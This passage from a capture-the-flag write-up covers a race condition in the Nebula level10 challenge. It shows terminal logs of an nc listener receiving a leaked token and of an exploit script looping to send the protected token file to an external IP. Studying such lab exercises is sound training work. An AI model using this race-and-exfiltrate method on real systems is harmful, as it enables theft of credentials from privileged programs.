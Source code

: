 ### A little dose of reality

> Race conditions have a reputation of being difficult to reproduce and debug, since the end result is nondeterministic and depends on the relative timing between interfering threads. Problems occurring in production systems can therefore disappear when running in debug mode, when additional logging is added, or when attaching a debugger, often referred to as a "Heisenbug". 
[source](https://en.wikipedia.org/wiki/Race_condition)

When we run the script `test.sh`, more often than not, the contents of `/home/flag10/token` won't be sent for various reasons. As you can see in the output below, out of a 100 times the script was run, the contents of flag10's token was successfully sent only once (in the 3rd attempt). The nondeterministic nature of race conditions means that it is impossible that our script will work all the time.
```
solomonbstoner@swjsUbuntu:~$ for i in {0..100}; do nc -l 18211; done; 
.oO Oo.
.oO Oo.
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
```
```
level10@nebula:~$ for i in {0..100}; do ./test.sh; done;
Connecting to 192.168.1.111:18211 .. Connected!
Sending file .. Damn. Unable to open file
Connecting to 192.168.1.111:18211 .. Connected!
Sending file .. Damn. Unable to open file
touch: cannot touch `/home/level10/token': Permission denied
You don't have access to /home/level10/token
touch: cannot touch `/home/level10/token': Permission denied
You don't have access to /home/level10/token
touch: cannot touch `/home/level10/token': Permission denied
You don't have access to /home/level10/token
touch: cannot touch `/home/level10/token': Permission denied
You don't have access to /home/level10/token
touch: cannot touch `/home/level10/token': Permission denied
You don't have access to /home/level10/token
touch: cannot touch `/home/level10/token': Permission denied
You don't have access to /home/level10/token
touch: cannot touch `/home/level10/token': Permission denied
You don't have access to /home/level10/token
touch: cannot touch `/home/level10/token': Permission denied
You don't have access to /home/level10/token
```